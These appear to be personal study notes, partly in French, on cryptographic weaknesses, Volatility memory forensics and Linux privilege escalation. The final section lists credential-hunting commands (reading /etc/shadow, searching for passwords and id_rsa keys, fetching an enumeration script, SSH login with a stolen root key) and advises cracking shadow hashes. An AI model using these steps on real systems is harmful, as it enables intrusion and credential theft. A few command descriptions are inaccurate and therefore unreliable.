<p id="gdcalert310" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image310.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert311">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


        **Algorithms like MD5, SHA-1, and SHA-2 that are based on the Merkle–Damgård construction are susceptible to this kind of attack.The SHA-3 algorithm is not susceptible.**


        **[https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks)**


## Liste d’Algo de générateur de nombres pseudo-aléatoires


<table>
  <tr>
   <td><strong> Mersenne Twister </strong>
   </td>
   <td><strong>L’algorithme est basé sur un TGSFR (twisted generalised shift feedback register, un type particulier de registre à décalage à rétroaction).</strong>
<p>
<strong>Sa période est de 2^19937 − 1.</strong>
<p>
<strong>Si on a les éléments d’une suite, les éléments suivants sont prédictibles avec cette algo.</strong>
   </td>
  </tr>
  <tr>
   <td><strong> Berlekamp-Massey</strong>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td><strong> Reed-Sloane</strong>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


    **In computer security, a side-channel attack is any attack based on information gained from the implementation of a computer system, rather than weaknesses in the implemented algorithm itself (e.g. cryptanalysis and software bugs). Timing information, power consumption, electromagnetic leaks or even sound can provide an extra source of information, which can be exploited.**


* ECDSA ("Elliptic Curve Digital Signature Algorithm")
* **Les avantages de ECDSA sur DSA et RSA sont des longueurs de clés plus courtes et des opérations de signature et de chiffrement plus rapides.**
* **ECDSA est l’algorithme de signature électronique à clé publique utilisé par Bitcoin.**

**Génération des clés pub/priv :**


<p id="gdcalert311" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image311.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert312">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert312" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image312.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert313">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert313" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image313.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert314">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**k is named a nonce here.**

**En effet, le fait que le logarithme discret ( sur courbe elliptique ) soit un problème difficile nous assure qu’un attaquant ne pourra pas retrouver la clé privé de Bob en un temps raisonnable**


<p id="gdcalert314" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image314.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert315">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**Attack on ECDSA :**


* **Recovering secret keys from reused nonces :**
    * **if a signer ever releases a signature and also releases the nonce they used, an attacker can immediately recover the secret key.**
* **Even if the signer keeps every nonce secret, if they accidentally repeat a single nonce (even for different messages), the secret key can immediately be recovered as well.**


## Algorithme RC4 :

**		**

**RC4 est un algorithme de chiffrement par flux (par flot ou encore sans état) à clésymétrique développé en 1987 par Ronald Rivest (l’un des créateurs du RSA). C’est un générateur de bits pseudo-aléatoires dont le résultat est combiné avec le texte en clair via une opération XOR.**

**Son nom signifie : Ron’s Code #4 ou encore Rivest Cipher #4. **

**Il utilise différentes tailles de clé, couramment jusqu’à 256 bits.**

**RC4 ne nécessite pas trop de puissance de calcul. Il est extrêmement rapide (environ 10x plus rapide que le DES).**

**Cet algorithme reprend le principe du masque jetable (OTP – One Time Pad ou masque de Vernam). En effet, on génère un flux de données de taille identique au flux de données claires et on fait un XOR entre les deux, le déchiffrement se fait par XOR entre le chiffré et le même flux pseudo-aléatoire.**

**			**


## 				EDDSA


* **EdDSA (anglais : Edwards-curve Digital Signature Algorithm (algorithme de signature numérique Courbe d'Edwards), à ne pas confondre avec ecDSA), est, dans le domaine de la cryptographie asymétrique, un schéma de signature numérique utilisant une variante de la cryptographie sur les courbes elliptiques basée sur les courbes d'Edwards tordues. Il a été conçu pour fournir de bonnes performances tout en évitant les problèmes de sécurité qui sont apparus dans les autres schémas de signatures électroniques.**


## 				DES


* **The Data Encryption Standard (DES) is an algorithm that was adopted as an official standard in 1977 in the US. The original proposal was modified slightly to strengthen against differential cryptanalysis, but also significantly weakened against brute-force attacks, particularly as a result of the reduction of key size to 56 bits. With enough horsepower, it was only a matter of time before a key-search machine, capable of rapidly computing every possible key, in turn, was able to break DES. DES supports 8-byte keys.**


##            An Initialization Vector (IV)

**-In cryptography, an Initialization Vector (IV) is a nonce used to randomize the encryption, so that even if multiple messages with identical plaintext are encrypted, the generated corresponding ciphertexts will each be distinct.**

**Unlike the Key, the IV usually does not need to be secret, rather it is important that it is random and unique. In fact, in certain encryption schemes the IV is exchanged in public as part of the ciphertext.**

**Reusing the same Initialization Vector with the same Key to encrypt multiple plaintext blocks allows an attacker to compare the ciphertexts and then, with some assumptions on the content of the messages, to gain important information about the data being encrypted.**

**The consequences of reusing the same IV-Key pair depend on the actual cipher and mode used :**


<table>
  <tr>
   <td><strong>CBC,CFB</strong>
   </td>
   <td><strong>The leaks of information from the first block and commonalities are enough to lead an empowered attacker to fully compromising the encryption layer of protection in the given system</strong>
   </td>
  </tr>
  <tr>
   <td><strong>OFB,CTR,GCM</strong>
   </td>
   <td><strong>IV reuse renders encryption practically useless as given two ciphertexts their XOR yields the same result of XOR-ing the two corresponding plaintexts.</strong>
<p>
<strong>Cypher1 ^ Cypher2 = Clair1 ^ Clair2</strong>
   </td>
  </tr>
</table>


<p id="gdcalert315" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image315.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert316">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* Padding oracle attacks :
* Définition :

    **Padding Oracle Attacks arise due to a vulnerability in the decryption validation process of Cipher-Block Chaining (CBC) encrypted messages (published back in 2002).**


    **However, given a significant percentage of web clients still support unsafe cipher modes, the technique, as well as adaptations of and extensions to the original methodology, persist (found close to 100 TLS Padding Oracle Attack variations in the wild in just 2019 alone). **


    **In the case of Padding Oracle Attacks, a malicious actor exploits the verifiable padding data at the end of the block by continually sending specially crafted messages against the cipher and relying on the error messages returned to determine the correctness of the messages.**


    

<p id="gdcalert316" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image316.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert317">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


    

<p id="gdcalert317" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image317.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert318">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**A padding oracle is present if an application leaks this specific padding **

**error condition for encrypted data provided by the client.**

**Knowing whether or not a given ciphertext produces plaintext with valid **

**padding is ALL that an attacker needs.**

**The reason it works in CBC mode is that we can make predictable,**

**arbitrary changes to the plaintext of the last block by modifying the**

**ciphertext (of the second to last block, or the IV). For another mode**

**to be vulnerable, the same kind of control would be needed.**


### 	Prévention 


* **Make sure that an Oracle doesn’t exist.**
* **Verify that known insecure block modes (i.e. ECB, etc.) and padding modes (i.e. PKCS#1 v1.5, etc.) are not used. Verify that all cryptographic modules fail securely, and errors are handled in a way that does not enable Padding Oracle attacks.**

    

<p id="gdcalert318" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image318.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert319">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* GCM ( Galois Counter Mode )
* **GCM ( Galois Counter Mode ) includes an authentication mechanism.**

**Galois/Counter Mode (GCM) est un mode d'opération de chiffrement par bloc en cryptographie symétrique. Il est relativement répandu en raison de son efficacité et de ses performances.**

**C'est un algorithme de chiffrement authentifié conçu pour fournir à la fois l'intégrité et l'authenticité des données, ainsi que la confidentialité.**

**GCM est défini pour les chiffrements par bloc avec des tailles de bloc de 128 bits.**


<p id="gdcalert319" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image319.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert320">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* Le Salt

    - **Le salage, est une méthode permettant de renforcer la sécurité des informations qui sont destinées à être hachées (par exemple des mots de passe) en y ajoutant une donnée supplémentaire afin d’empêcher que deux informations identiques conduisent à la même empreinte (la résultante d’une fonction de hachage). **


    **Le but du salage est de lutter contre les attaques par analyse fréquentielle, les attaques utilisant des rainbow tables**.** Pour ces deux dernières attaques, le salage est efficace quand le sel utilisé n’est pas connu de l’attaquant ou lorsque l’attaque vise un nombre important de données hachées toutes salées différemment.**


    Le salt est généralement une donnée publique. Il ne prévient pas lui-même des attaques de type bruteforce. c’est une valeur unique stockée généralement avec le hash


    Un salt non public peut être appelé un “Pepper”. Lui peut prévenir des attaques de type brute force utilisant des wordlists classiques.


## MISC


* Si l'on chiffre en utilisant la clef privée alors on peut déchiffrer en utilisant la clef publique.
* Un HMAC ( _keyed-hash message authentication code )_ est un type de code d'authentification de message (CAM), ou MAC en anglais (message authentication code), calculé en utilisant une fonction de hachage cryptographique en combinaison avec une clé secrète.

            Il peut être utilisé pour vérifier simultanément l'intégrité de données et l'authenticité d'un message.


            La qualité cryptographique du HMAC dépend de la qualité cryptographique de la fonction de hachage et de la taille et la qualité de la clé.


            Formule d’un HMAC :


    

<p id="gdcalert320" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image320.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert321">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* "||" désigne une concaténation.
* ipad et opad, chacune de la taille d'un bloc, sont définies par : ipad = 0x363636...3636 et opad = 0x5c5c5c...5c5c.
* Lorsque que l’on utilise le système de Signature Digitale ( Hash + signature avec la clef privé ), le Hash est la QUE pour réduire la taille des calculs  !
* Dans un protocole cryptographique classique ( utilisation Symétrie/asymétrie/signature ) Il y a plusieurs choix dans l’ordre des calculs :
    * Encrypt-then-sign

                        Envoyer :  c = algo_sym( m ) | s =  algo_asym( hash(c) )

    * Encrypt-and-sign
        * Envoyer : c = algo_sym(m) | s = algo_asym( hash(m) )
    * Sign-then-Encrypt
        * Envoyer : algo_sym( m | s = algo_asym(hash(m)) )

                    Chacune des méthodes a ses avantages et inconvénients et cela peut causer des failles de sécurité importantes si on choisi l’un plutôt que l’autre. 


                    Mais de manière générale, le meilleur est Sign-then-Encrypt

* En cryptanalyse, une attaque temporelle consiste à estimer et analyser le temps mis pour effectuer certaines opérations cryptographiques dans le but de découvrir des informations secrètes. La mise en œuvre de ce genre d'attaque est intimement liée au matériel ou au logiciel attaqué.
* Modern cryptographic protocols often require frequent generation of random quantities. Cryptographic attacks that subvert or exploit weaknesses in this process are known as random number generator attacks.
* Virtual HSM (VHSM) is a software suite for storing and manipulating secret data outside the virtualized application environment. While HSM is a physical device connected to the computer, this software provides HSM functionality through the PKCS#11 API in a virtual environment based on OpenVZ container technology.
17. Forensic


## Some tools and command


<table>
  <tr>
   <td><strong>Dumpzilla</strong>
   </td>
   <td><strong>Available on Kali, this application is developed in Python 3.x and has as purpose extract all forensic interesting information of Firefox, Iceweasel and Seamonkey browsers to be analyzed.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>Autopsy</strong>
   </td>
   <td><strong>Très intéressant et facile d’utilisation sur Windows pour analyser des dumps</strong>
   </td>
  </tr>
  <tr>
   <td><strong>pypykatz</strong>
   </td>
   <td><strong>analyse DMP file.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>Process Hacker ( on Windows )</strong>
   </td>
   <td><strong>Allow you to see all processes running on your machine with some informations ( owner, description, command line ( file path ), … ) </strong>
   </td>
  </tr>
  <tr>
   <td><strong>oledump.py</strong>
   </td>
   <td><strong>oledump.py is a program to analyze OLE files.</strong>
<p>
<strong>Many applications use this file format, the best known is MS Office. .doc, .xls, .ppt, …</strong>
   </td>
  </tr>
  <tr>
   <td><strong>bulk-extrator [IMAGE_FILE] -o [OUTPUT_REPO]</strong>
   </td>
   <td><strong>bulk_extractor is a program that extracts features such as email addresses, credit card numbers, URLs, and other types of information from digital evidence files</strong>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


* Volatility
* **Syntax Volatility command :**

    

<p id="gdcalert321" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image321.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert322">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**				  **


### Some Volatility command and plugin


<table>
  <tr>
   <td><strong>volatility -f [DUMP_FILE] imageinfo</strong>
   </td>
   <td>
<ul>

<li><strong>identify some OS profiles </strong>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td><strong>volatility -f ch2.dmp --profile=Win7SP1x86 hivelist</strong>
   </td>
   <td><strong>Dumper les Hives ( Windows )</strong>
<p>
<strong>--profile : Pour que Volat. interprète bien le fichier en entrée</strong>
   </td>
  </tr>
  <tr>
   <td><strong>volatility --info | more</strong>
   </td>
   <td><strong>You Can list all available plugins with this command ( adding a quick description of each one of them )</strong>
   </td>
  </tr>
  <tr>
   <td><strong>volatility -f [DUMP_FILE] --profile=[PROFILE] kdgbscan</strong>
   </td>
   <td><strong>Provide more information than imageinfo but it’s more slow</strong>
   </td>
  </tr>
  <tr>
   <td><strong>volatility -f [DUMP_FILE] --profile=[PROFILE] pslist > file.txt</strong>
   </td>
   <td><strong>List all processes. psscan provide more information ( terminated,unlinked and hidden processus, … )</strong>
<p>
<strong>It worth to look if a process appear with psscan and not with pslist.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>pstree</strong>
   </td>
   <td><strong>To view the process listing in tree form, use the pstree command. This enumerates processes using the same technique as pslist.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>psxview</strong>
   </td>
   <td><strong>Aids in discovering hidden processes.</strong>
<p>
<strong>This plugin compares the active processes indicated within psActiveProcessHead ( associated with pslist ) with any other possible sources within the memory image</strong>
   </td>
  </tr>
  <tr>
   <td><strong>malfind</strong>
   </td>
   <td><strong>famous plugin that find hidden or injected code/DLLs in user mode memory</strong>
   </td>
  </tr>
  <tr>
   <td><strong>moddump</strong>
   </td>
   <td><strong>Extract Executables, drivers from kernel memory</strong>
   </td>
  </tr>
  <tr>
   <td><strong>DLLdump</strong>
   </td>
   <td><strong>Dumping DLLs from memory</strong>
   </td>
  </tr>
  <tr>
   <td><strong>netscan</strong>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>f<strong>socket </strong>
   </td>
   <td><strong>To detect listening sockets for any protocol (TCP, UDP, RAW, etc).</strong>
<p>
<strong>This command is for x86 and x64 Windows XP and Windows 2003 Server only.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>netscan</strong>
   </td>
   <td><strong>To scan for network artifacts in 32- and 64-bit Windows Vista, Windows 2008 Server and Windows 7.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>connscan</strong>
   </td>
   <td><strong>The connscan plugin is a scanner for TCP connections.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>consoles / cmdscan</strong>
   </td>
   <td><strong>which extracts command history by scanning for _CONSOLE_INFORMATION.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>procdump</strong>
   </td>
   <td><strong>-p : PID of the process</strong>
<p>
<strong>extract process.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>memdump</strong>
   </td>
   <td><strong>-p : PID of the process</strong>
<p>
<strong>extract process as a dump file. it represents the addressable memory of the process.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>filescan</strong>
   </td>
   <td><strong>scan for file inside the dump</strong>
   </td>
  </tr>
  <tr>
   <td><strong>dumpfiles</strong>
   </td>
   <td><strong>get file inside the dump</strong>
<p>
<strong>-D : destination directory </strong>
<p>
<strong>-Q : dump file physical address OFFSET</strong>
<p>
<strong>-n : output file name</strong>
   </td>
  </tr>
  <tr>
   <td><strong>foremost -v -i dump -o forefore</strong>
   </td>
   <td><strong>extract files from dump</strong>
   </td>
  </tr>
  <tr>
   <td><strong>clipboard</strong>
   </td>
   <td><strong>This command recovers data from users' clipboards ( presse-papier ).</strong>
   </td>
  </tr>
  <tr>
   <td><strong>windows</strong>
   </td>
   <td><strong>This command enumerates all windows (visible or not) in all desktops of the system</strong>
   </td>
  </tr>
  <tr>
   <td><strong>iehistory</strong>
   </td>
   <td><strong>show internet history</strong>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


* **When you are suggested profiles ( by imageinfo plugins ), how to choose the correct one ? One of the technique is to compare the value of the service pack field like the image below : **


<p id="gdcalert322" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image322.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert323">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* **Difference in name profiles :**


<p id="gdcalert323" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image323.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert324">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**	the number of after the “_” is the version of the operating system ( version**

**with different changes in memory structure ).**

**	**


* **It’s different when you work on a Virtual machine file and normal operating system file.**


<p id="gdcalert324" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image324.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert325">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**You have to choose the right tool ( to make live captures ) depending on what devices you are focusing on ( SSD, Disk, RAM, VM, …)**


<p id="gdcalert325" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image325.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert326">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert326" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image326.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert327">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**You can use these files in Volatility**


<p id="gdcalert327" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image327.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert328">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**Some of Windows Core processes :**


<p id="gdcalert328" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image328.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert329">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**An other core process :**


<p id="gdcalert329" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image329.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert330">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* **Work in conjunction with lsass.exe.**

**By looking for any deviations ( of each characteristic ) from known normal of these processes, sometimes you are able to easily find evidence of attacker activity malware and so on.**


<p id="gdcalert330" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image330.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert331">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* **A hive in the Windows Registry is the name given to a major section of the registry that contains registry keys, registry subkeys, and registry values. **
* Les Rootkit :

**Un rootkit est un programme qui maintient un accès frauduleux à un système informatique et cela le plus discrètement possible, leur détection est difficile, parfois même impossible tant que le système d'exploitation fonctionne.**

**Outils :**


<table>
  <tr>
   <td><strong>rkhunter</strong>
   </td>
   <td><strong>détection de rootkit</strong>
   </td>
  </tr>
  <tr>
   <td><strong>chkrootkit</strong>
   </td>
   <td><strong>détection de rootkit</strong>
   </td>
  </tr>
  <tr>
   <td><strong>Lynis</strong>
   </td>
   <td><strong>détection de malware sur Linux</strong>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


* MISC
* **A Loopback Device ( /dev/loop ) is a mechanism used to interpret files as real devices ( like harddisk ). The main advantage of this method is that all tools used on real disks can be used with a loopback device.**
* **When you see a malicious processus, it’s necessary to know and find what is its parent process ( in tracking back processus ) to know what happened in the past.**
* **If you find a process with the same name of another common process of the operating system , it’s necessary to check the file path and the parent process to evaluate if it corresponds to the real process and not **

    **a suspicious process with the same name.**

* **It’s also good to check when a suspicious process has started ( the date ).**
* **Dans le monde de l’informatique légale (computer forensics), les données existent notamment sous trois états : **
    * **En transit (data in transit) qui décrivent des données qui sont en mouvement à travers un réseau ou entre deux espaces de stockage.**
    * **Au repos (data at rest). Dans cet état, les données résident sur des médias non-volatiles (disques durs, cartes mémoires, clés USB, etc.) et ne sont ni lues ni traitées.**
    * **En utilisation (data in use) où les données sont utilisées sur le moment par l’utilisateur ou par le CPU.**

        **Lorsque les données sont utilisées, elles sont retirées du disque dur et stockées temporairement dans la mémoire RAM, car bien plus rapide que le disque dur. **

* **In Unix-like operating systems, a loop device ( /dev/loop0 for example ) is a pseudo-device that makes a file accessible as a block device.” In short, a loop device allows us to present the image file ( file.img for example ) to the operating system as if it were an actual “disk”.**
18. Linux Privilege Escalation

**[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#tools](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#tools)**


##    System enumeration command :


<table>
  <tr>
   <td><strong>uname -a  </strong>
<p>
<strong>cat /proc/version </strong>
<p>
<strong>cat /etc/issue</strong>
   </td>
   <td><strong>Display information about the kernel ( processor, version , distribution … )</strong>
   </td>
  </tr>
  <tr>
   <td><strong>hostname [OPTIONS]</strong>
   </td>
   <td><strong>The <em>hostname</em> <a href="http://www.linfo.org/command.html">command</a> is used to show or set a computer's <em><a href="http://www.linfo.org/host_name.html">host name</a></em> and <em><a href="http://www.linfo.org/domain_name.html">domain name</a></em>.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>lscpu</strong>
   </td>
   <td><strong>Display information about the architecture, the CPU, . . .</strong>
   </td>
  </tr>
  <tr>
   <td><strong>ps aux</strong>
<p>
<strong>ps -edf</strong>
   </td>
   <td><strong>Display what services are running</strong>
   </td>
  </tr>
  <tr>
   <td><strong>whoami</strong>
   </td>
   <td><strong>Display your own hostname</strong>
   </td>
  </tr>
  <tr>
   <td><strong>id</strong>
   </td>
   <td><strong>Display some information about the current user</strong>
   </td>
  </tr>
  <tr>
   <td><strong>sudo -l</strong>
   </td>
   <td><strong>Display what command you can run at sudo what you can manipulate as sudo</strong>
   </td>
  </tr>
  <tr>
   <td><strong>cat /etc/passwd</strong>
<p>
<strong>cat /etc/shadow</strong>
<p>
<strong>cat /etc/group</strong>
   </td>
   <td><strong>Display informations about all users and groups</strong>
   </td>
  </tr>
  <tr>
   <td><strong>history</strong>
   </td>
   <td><strong>Display the history about the commands executed</strong>
   </td>
  </tr>
  <tr>
   <td><strong>ifconfig</strong>
<p>
<strong>ip a</strong>
<p>
<strong>ip route</strong>
   </td>
   <td><strong>Print out common informations about networking</strong>
   </td>
  </tr>
  <tr>
   <td><strong>arp -a</strong>
<p>
<strong>ip neigh</strong>
   </td>
   <td><strong>Print out the ARP table</strong>
   </td>
  </tr>
  <tr>
   <td><strong>netstat ano</strong>
   </td>
   <td><strong>Print out what ports are opened, state of socket, connections . . .</strong>
   </td>
  </tr>
  <tr>
   <td><strong>grep --color=auto -rnw ‘/’ -ie “PASSWORD=” --color=always 2> /dev/null</strong>
   </td>
   <td><strong>This long command is going to look for the word “PASSWORD=” in files and print it out in red color.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>locate password | more</strong>
   </td>
   <td><strong>Display files that contain “password” in their names.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>find / -name authorized_key 2> /dev/null</strong>
<p>
<strong>find / -name id_rsa 2> /dev/null</strong>
   </td>
   <td><strong>Looking for some useful informations about SSH (keys, …) that you can access to.</strong>
<p>
<strong>id_rsa is a common name for ssh private key.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null</strong>
<p>
<strong>wget https://raw.githubusercontent.com/Anon-Exploiter/SUID3NUM/master/suid3num.py</strong>
   </td>
   <td><strong>Looking for files that are SUID enabled.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>getcap -r / 2>/dev/null</strong>
   </td>
   <td><strong>Looking for capabilities of binaries .</strong>
   </td>
  </tr>
  <tr>
   <td><strong>Tcpdump -D</strong>
   </td>
   <td><strong>list all interfaces</strong>
   </td>
  </tr>
  <tr>
   <td><strong>timeout 150 tcpdump -w cap.pcap -i veth1665bcd</strong>
   </td>
   <td><strong>inspect “veth1665bcd” traffic if possible, and save the output in a pcap file “cap.pcap”.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>ss -tnl</strong>
   </td>
   <td><strong>ss command is a tool that is used for displaying network socket related information on a Linux system. ( to see active socket )</strong>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


* **Pensez à regarder les fichiers liés aux exécutions journalières ( cron, …)**
* **Some Linux Privilege Escalation tool for enumeration : **
    * **LinPEAS**
    * **LinEnum**
    * **LES**
    * **Linuxprivchecker : looking for potential CVE that can be performed.**

            **It’s important to run different tools ( not only one ) to not miss something important.**

* Kernel exploitation :
    * **Find the version of the kernel and then search for some known exploit that gives you privileges and run it.**
* Passwords & File Permissions exploitation :
    * **You can type the command history or cat .bash_history  and check if there are some passwords written here.**
    * **You can search some special words in all the files that can lead you to find a real password.**
* **Look if you have reading permission to /etc/shadow. If you have this permission, you can take the content of /etc/shadow and /etc/passwd and run some script ( Like unshadow already installed in Kali) that will give you an output that you are going to use to bruteforce the hashes with Hashcat. **
* **If you find some private key ( id_rsa ), you can use it to connect on the machine via ssh as the owner that has that private key using it instead of login / password. **

                **for each known and authorized public key, you can connect to the machine via the private key.**


                **example : **


                **chmod 600 root_private_key ( On doit rendre la clef inaccessible au autre )**


                **ssh -i root_private_key root@192.168.4.67**

* Sudo exploitation :
* LD_PRELOAD :
    * **If you have this variable running as root, you can run your own code ( and so invoke a shell ): **


<p id="gdcalert331" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image331.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert332">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert332" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image332.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert333">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**Here , the command find has to be running as sudo permission.**


* SUID Exploitation
    * **Search in [https://gtfobins.github.io](https://gtfobins.github.io) and google to know if you can exploit what you have find as SUID file, binaries.**
* Shared Object Injection :
    * **1) Search for some executable with SUID enabled**
* **2) Run it with Strace.**
* **3) Looking for some Shared library that the program try to open or access :**


